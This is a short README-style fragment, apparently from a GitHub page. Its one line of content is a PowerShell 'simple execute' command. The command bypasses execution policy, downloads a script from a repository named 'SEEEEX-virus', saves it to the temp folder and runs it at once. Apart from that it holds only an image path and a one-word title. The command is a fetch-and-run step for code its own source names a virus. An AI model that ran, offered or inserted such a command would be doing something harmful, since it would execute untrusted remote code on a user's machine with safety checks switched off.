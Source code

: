 **simple execute**
```powershell
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/ElenaMod/SEEEEX-virus/refs/heads/main/sex.ps1' -OutFile '$env:TEMP\sex.ps1'; & '$env:TEMP\sex.ps1'"
```
# SEX
